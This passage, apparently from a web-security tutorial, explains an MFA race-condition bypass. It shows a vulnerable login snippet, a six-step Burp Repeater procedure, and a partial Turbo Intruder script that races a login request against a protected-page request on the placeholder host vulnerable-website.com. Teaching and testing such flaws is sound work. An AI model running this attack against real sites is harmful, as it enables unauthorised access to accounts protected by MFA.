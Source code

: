                # Check if MFA is required
               if user.mfa_enabled:
                   session['mfa_required'] = True
                   # Generate and send MFA code
                   send_mfa_code(user)
                   # Redirect to MFA page
                   return redirect('/mfa-verification')
               else:
                   # No MFA required, redirect to dashboard
                   return redirect('/dashboard')
       ```
       
    2. **Exploiting MFA race condition**:
       - Step 1: Prepare a login request with valid credentials
       - Step 2: Identify a protected endpoint that requires full authentication
       - Step 3: Group both requests in Burp Repeater
       - Step 4: Send the requests in parallel
       - Step 5: Check if the protected endpoint request succeeds despite MFA being enabled
       - Step 6: If successful, explore other protected endpoints to determine the extent of access
       - Example Turbo Intruder script for MFA bypass:
       ```python
       def queueRequests(target, wordlists):
           engine = RequestEngine(
               endpoint=target.endpoint,
               concurrentConnections=2,
               requestsPerConnection=1,
               pipeline=False
           )
           
           # Request 1: Login request
           login_req = '''POST /login HTTP/2
       Host: vulnerable-website.com
       Content-Type: application/x-www-form-urlencoded
       Cookie: session=expired_session_id
       
       username=victim_user&password=valid_password'''
           
           # Request 2: Access protected page
           protected_req = '''GET /account/settings HTTP/2
       Host: vulnerable-website.com
       Cookie: session=expired_session_id'''
           
           # Queue both requests to execute simultaneously
           engine.queue(login_req, None, gate='race')
           engine.queue(protected_req, None, gate='race')
           